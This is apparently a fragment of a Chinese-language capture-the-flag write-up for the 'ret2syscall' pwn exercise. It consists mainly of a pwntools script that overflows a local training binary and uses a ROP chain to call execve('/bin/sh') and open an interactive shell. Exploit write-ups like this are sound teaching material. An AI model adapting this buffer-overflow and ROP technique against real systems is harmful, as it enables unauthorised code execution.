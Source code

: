     ![image-20240224174131051](Pwn/image-20240224174131051.png)
    ![image-20240224174943215](Pwn/image-20240224174943215.png)
    因此构造的 payload 如下：

    ```python
    from pwn import *
    
    io = process("./ret2syscall")
    io.recv()
    
    eax_ret_addr = 0x080bb196
    edx_ecx_ebx_addr = 0x0806eb90
    bin_sh_addr = 0x080BE408
    int_0x80_addr = 0x0805d025
    
    # 112 byte 
    garbage = 112 * b'A'
    payload = flat([garbage, eax_ret_addr, 0xb, edx_ecx_ebx_addr, 0, 0, bin_sh_addr, int_0x80_addr])
    
    io.sendline(payload)
    io.interactive()
    ```



